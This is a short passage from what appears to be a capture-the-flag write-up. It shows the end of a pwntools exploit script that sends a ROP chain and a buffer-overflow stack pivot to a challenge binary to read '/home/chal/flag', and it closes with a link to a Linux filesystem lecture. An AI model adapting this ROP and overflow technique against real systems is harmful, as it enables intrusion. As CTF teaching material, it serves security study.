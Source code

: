        # Write the file
       pop_rax_ret, 1,
       pop_rdi_ret, 1,
       syscall_ret,
       )

    r.sendafter("Give me filename:", '/home/chal/flag\x00')
    r.sendafter("Give me ROP:", b'a'*0x8 + ROP)
    r.sendafter('Give me overflow:', b'a'*0x20 + p64(ROP_addr) + p64(leave_ret))

    r.interactive()
    ```
    :::
# Reference 
[Linux 核心設計: 檔案系統概念及實作手法 (上)](https://youtu.be/d8ZN5-XTIJM)